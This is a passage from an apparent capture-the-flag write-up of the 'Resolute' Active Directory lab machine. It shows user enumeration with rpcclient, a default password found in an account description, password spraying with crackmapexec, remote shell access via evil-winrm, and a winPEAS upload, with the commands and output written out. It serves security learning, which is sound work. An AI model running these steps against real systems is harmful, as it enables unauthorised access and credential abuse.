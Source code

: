 Taking the users and putting it into a file rids.txt and then using cut to extract just the usernames we can create a file of those:

```bash
┌─[rin@parrot]─[~/boxes/Resolute]
└──╼ $cat rids.txt | cut -d '[' -f 2 | cut -d ']' -f 1 > users.txt
```

Back to rpcclient, we can use querydispinfo to get more information about the users we found:

```bash
rpcclient $> querydispinfo
<SNIP>
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt Name: (null) 
    Desc: Key Distribution Center Service Account
index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus Name: (null) 
    Desc: (null)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak 
    Desc: Account created. Password set to Welcome123!
index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie Name: (null) 
    Desc: (null)
index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki Name: (null) 
    Desc: (null)
<SNIP>
```

That gives us a password that was used when accounts were created of Welcome123! We can try this with crackmapexec to test it with all of the usernames we have already discovered:

```bash
┌─[rin@parrot]─[~/boxes/Resolute]
└──╼ $crackmapexec smb resolute.htb -u ./users.txt -p 'Welcome123!'
<SNIP>
SMB 10.129.1.152 445 RESOLUTE [-] megabank.local\per:Welcome123! 
    STATUS_LOGON_FAILURE
SMB 10.129.1.152 445 RESOLUTE [-] megabank.local\claude:Welcome123! 
    STATUS_LOGON_FAILURE
SMB 10.129.1.152 445 RESOLUTE [+] megabank.local\melanie:Welcome123!
```

This gives us a login with the user melanie that we can then use evil-winrm to logon with and get the user.txt file:

```bash
┌─[rin@parrot]─[~/boxes/Resolute]
└──╼ $evil-winrm -u melanie -p 'Welcome123!' -i resolute.htb
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\melanie\Documents>
```

We can now upload winPEAS.exe using evil-winrm's built in feature of uploading files:

```bash
*Evil-WinRM* PS C:\Users\melanie\Documents> upload winPEAS.exe
Info: Uploading winPEAS.exe to C:\Users\melanie\Documents\winPEAS.exe
Data: 629416 bytes of 629416 bytes copied
Info: Upload successful!
```
